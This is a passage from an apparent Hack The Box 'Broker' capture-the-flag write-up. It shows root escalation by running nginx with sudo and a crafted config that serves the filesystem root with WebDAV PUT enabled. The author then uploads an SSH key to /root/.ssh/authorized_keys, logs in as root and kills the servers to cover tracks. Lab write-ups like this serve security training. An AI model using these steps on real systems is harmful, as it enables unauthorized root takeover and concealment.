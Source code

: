 However, I want to get a shell.

#### Adding Root SSH Key
I need to figure out a way to write to the webserver, and therefor to the machine. If I can write a root SSH key, I can get ssh access as root.

All that I need to do this is to implement the Nginx WebDAV module for the PUT method. I modify the `server` section of the `nginx.conf` file. I don't need much functionality so i only need one line.
```
http {

	server {
		listen 8081;
		server_name broker.htb;

		location / {
			root /;
			autoindex on;
			dav_methods PUT;
		}
	}
```
 Running the Nginx start server command again will start another server, So I also need to change the port to 8082, as 8081 is taken by my old server.

After this I run the Nginx command again
```bash
sudo /usr/sbin/nginx -c /dev/shm/nginx.conf
```
I can now write my public SSH key to the root directory, and get full root access to the box!
```bash
┌──(kali㉿Kali)──[1:05:55]──[~/htb/Machines/Broker/ActiveMQ-RCE]
└─$ curl -X PUT 10.129.202.119:8082/root/.ssh/authorized_keys -d 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQCp00ECl3nPJyFspB3LAJhb2Q4qDV8X9KgJF/vSOpyTJSRKcuxl8W1bEdnCWAzGR5vGJnLH
<...SNIP...>
nobody@nothing'

┌──(kali㉿Kali)──[1:06:46]──[~/htb/Machines/Broker/ActiveMQ-RCE]
└─$ ssh -i ~/.ssh/id_rsa root@10.129.202.119

<...SNIP...>

root@broker:~# id
uid=0(root) gid=0(root) groups=0(root)
root@broker:~# cat root.txt 
36a5cf--------------------------
```
To clean up my tracks at this point I kill the 2 webservers I started. I find their process ID numbers with `lsof`
```bash
root@broker:~# lsof -i :8081
COMMAND  PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
nginx   1272 root    6u  IPv4  30211      0t0  TCP *:tproxy (LISTEN)
nginx   1273 root    6u  IPv4  30211      0t0  TCP *:tproxy (LISTEN)
nginx   1274 root    6u  IPv4  30211      0t0  TCP *:tproxy (LISTEN)
root@broker:~# lsof -i :8082
COMMAND  PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
nginx   1339 root    6u  IPv4  31111      0t0  TCP *:8082 (LISTEN)
nginx   1340 root    6u  IPv4  31111      0t0  TCP *:8082 (LISTEN)
nginx   1341 root    6u  IPv4  31111      0t0  TCP *:8082 (LISTEN)
root@broker:~# kill 1272
root@broker:~# kill 1339
```

